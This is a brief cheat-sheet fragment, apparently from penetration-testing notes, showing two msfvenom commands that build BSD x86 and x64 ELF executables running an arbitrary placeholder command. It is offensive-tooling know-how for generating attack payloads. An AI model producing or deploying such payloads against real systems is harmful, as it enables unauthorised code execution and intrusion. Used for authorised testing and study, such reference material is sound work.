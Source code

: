 # Executable Binary Payloads

## 01 - Generate Payloads

## Execute BSD Exec Payload

```
$ msfvenom -p bsd/x86/exec cmd="<commands>" -f elf -o payload-x86

$ msfvenom -p bsd/x64/exec cmd="<commands>" -f elf -o payload-x64
```